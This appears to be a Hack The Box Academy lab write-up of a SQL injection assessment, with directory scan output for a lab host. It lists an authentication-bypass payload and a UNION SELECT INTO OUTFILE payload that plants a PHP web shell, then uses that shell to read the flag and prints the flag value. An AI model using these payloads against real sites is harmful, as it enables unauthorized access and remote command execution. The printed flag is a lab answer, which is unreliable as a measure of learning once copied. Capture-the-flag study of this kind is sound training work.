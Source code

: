 # Sql injections fundamentals:
The company inlanfreitgh has contracted to perform web app assesments against one of their public-facing website.
In light of a recent breach of one of their main competitors, they are particulary concerned with SLQ injection vulnerability and the damaga dicovery
ans susscessful explotation of this attack could do to their public image and bottom line.

## IP:
83.136.252.13:52940
Directories:
[08:01:53] 403 -   281B - /.php
[08:02:01] 200 -     0B - /config.php
[08:02:01] 301 -   327B - /dashboard  ->  http://83.136.252.13:52940/dashboard/
[08:02:01] 200 -     0B - /dashboard/
[08:02:01] 200 -   745B - /db.sql
[08:02:04] 200 -   907B - /index.php
[08:02:04] 200 -   907B - /index.php/login/
[08:02:05] 200 -    1KB - /license.txt
[08:02:09] 403 -   281B - /server-status
[08:02:09] 403 -   281B - /server-status/

We can try the payload:
admin' or '1'='1'-- -
Now try the shell execution in the page:
' UNION SELECT 1, 2, '<?php system($_REQUEST[0]); ?>', 4, 5 INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -

And see some enumerations we can find the
flag_cae1dadcd174.txt
Then:
http://83.136.252.13:52940/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
We get the flag:
528d6d9cedc2c7aab146ef226e918396
https://academy.hackthebox.com/achievement/349590/33
